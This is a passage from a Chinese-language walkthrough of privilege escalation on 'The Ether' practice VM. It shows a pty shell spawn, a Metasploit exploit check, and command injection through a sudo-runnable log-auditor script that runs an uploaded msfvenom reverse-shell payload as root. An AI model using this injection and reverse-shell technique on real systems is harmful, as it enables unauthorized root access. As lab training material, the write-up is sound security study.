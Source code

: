 exp 地址：https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c

提权失败。

### 使用msf提权

```
use post/multi/recon/local_exploit_suggester
```

没有发现可以利用的提权漏洞

### SUID文件提权

首先进入交互式shell： `python -c 'import pty;pty.spawn("/bin/bash")'`

在Web的目录中发现了特别的文件`xxxlogauditorxxx.py`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(11).png)

查看py文件的权限，发现具有SUID的权限，且文件所属用户为root。并且可以不使用密码即可以root权限运行该py文件。并且该py文件的配置错误，导致可以直接以root权限执行命令。（手动狗头）

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(12).png)

运行一下该py文件，发现是审计日志的程序。

查看日志时猜测此文件执行的是cat命令，在后面添加 | id看命令是否执行成功

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(13).png)

成功执行

于是我们就可以通过python脚本和`/var/log/auth.log |`命令进行配合获得root权限

因为之前已经上传了Msfvenom生成的马，这里再次使用；另开一个终端并开启msf监听

利用发现的特殊文件脚本以root权限执行先前上传的shell.elf

```shell
sudo ./xxxlogauditorxxx.py
/var/log/apache2/access.log|./shell.elf
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(14).png)

运行后，成功反弹root权限shell,提权成功

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(15).png)

进入root目录查看flag，发现flag.png文件，查看

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(18).png)

cat flag.png

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(16).png)

发现一串base64,解密得到flag

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(17).png)

至此，已经完成对靶机的完全渗透。